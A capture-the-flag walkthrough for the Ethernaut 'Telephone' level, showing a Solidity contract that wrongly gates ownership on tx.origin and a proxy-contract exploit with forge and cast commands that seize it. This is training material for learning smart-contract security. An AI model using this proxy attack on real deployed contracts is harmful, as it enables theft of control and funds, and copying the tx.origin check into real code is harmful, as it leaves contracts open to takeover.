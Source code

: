 ## Telephone Level Outline

**Difficulty : 1/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution
we need to send a transaction where `tx.origin != msg.sender`. To do this, we use a proxy contract to call the "changeOwner()" as tx.origin will equal our EOA and msg.sender will equal our deployed contract's address.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Phone {
    Telephone telephone;

    constructor(address _telephoneAddr) {
       telephone = Telephone(_telephoneAddr);
    } 

    function changeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}

interface Telephone {
    function changeOwner(address _owner) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Phone --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "changeOwner()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading

